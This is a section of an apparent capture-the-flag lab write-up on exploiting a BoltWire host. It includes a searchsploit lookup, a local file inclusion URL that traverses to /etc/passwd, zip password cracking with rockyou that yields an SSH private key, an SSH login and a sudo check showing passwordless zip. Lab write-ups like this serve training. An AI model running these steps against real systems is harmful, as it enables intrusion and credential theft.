

# Exploitation <!-- markdownlint-disable-line MD025 MD022 -->
{: .no_toc}

## Table of contents <!-- markdownlint-disable-line MD022 -->
{: .no_toc .text-delta}

- TOC
{:toc }


## searchsploit

```console
└─$ searchsploit boltwire
------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                       |  Path
------------------------------------------------------------------------------------- ---------------------------------
BoltWire 3.4.16 - 'index.php' Multiple Cross-Site Scripting Vulnerabilities          | php/webapps/36552.txt
BoltWire 6.03 - Local File Inclusion                                                 | php/webapps/48411.txt
------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
                                                                                                                       
┌──(kali㉿kali)-[~]
└─$ searchsploit -x 48411

...
Steps to Reproduce:

1) Using HTTP GET request browse to the following page, whilst being authenticated user.
http://192.168.51.169/boltwire/index.php?p=action.search&action=../../../../../../../etc/passwd
...
```



## fcrackzip

```console
└─$ fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt save.zip 
found file 'id_rsa', (size cp/uc   1435/  1876, flags 9, chk 2a0d)
found file 'todo.txt', (size cp/uc    138/   164, flags 9, chk 2aa1)

PASSWORD FOUND!!!!: pw == java101
```

```console
└─$ unzip save.zip
Archive:  save.zip
[save.zip] id_rsa password: 
  inflating: id_rsa                  
  inflating: todo.txt                

┌──(kali㉿kali)-[~/dev]
└─$ ls
id_rsa  save.zip  todo.txt
```

## ssh

```console
└─$ ssh -i id_rsa jeanpaul@10.0.2.7
Enter passphrase for key 'id_rsa': 
Warning: SSH client configured for wide compatibility by kali-tweaks.
Linux dev 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Jun  2 05:25:21 2021 from 192.168.10.31
jeanpaul@dev:~$ id
uid=1000(jeanpaul) gid=1000(jeanpaul) groups=1000(jeanpaul),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
jeanpaul@dev:~$ history
    1  echo "" > .bash_history 
    2  sudo -l
    3  exit
    4  id
    5  sudo -l
    6  history
jeanpaul@dev:~$ sudo -l
Matching Defaults entries for jeanpaul on dev:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jeanpaul may run the following commands on dev:
    (root) NOPASSWD: /usr/bin/zip
```

> We got passwordless sudo: zip

---
